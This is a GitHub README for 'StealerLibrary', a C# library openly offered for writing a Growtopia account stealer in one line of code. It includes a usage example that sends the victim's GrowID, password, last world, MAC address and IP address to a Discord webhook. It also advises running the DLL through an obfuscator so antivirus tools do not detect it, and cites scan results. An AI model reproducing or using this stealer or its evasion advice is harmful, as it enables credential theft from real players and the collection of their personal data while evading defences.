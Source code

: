 # StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [Release V1](https://github.com/extatent/StealerLibrary/releases/tag/V1)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't, use any obfuscator to make it FUD. (Used [Agile.Net](https://secureteam.net/acode-features-detailed) Scan Results 0/26) (Without Obfuscator 4/26)

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/1234567891011/WebhookUrl", "ProfilePictureUrl [Optional]", "Webhook Name", true, true, false);
        }
    }
}
```
1. Webhook Url
2. Profile Picture Url
3. Webhook Name
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)

## Features

- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)

<img src="http://anarchy.5v.pl/example.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. Before doing anything with the source code, please read [this.](https://www.gnu.org/licenses/gpl-3.0.html)
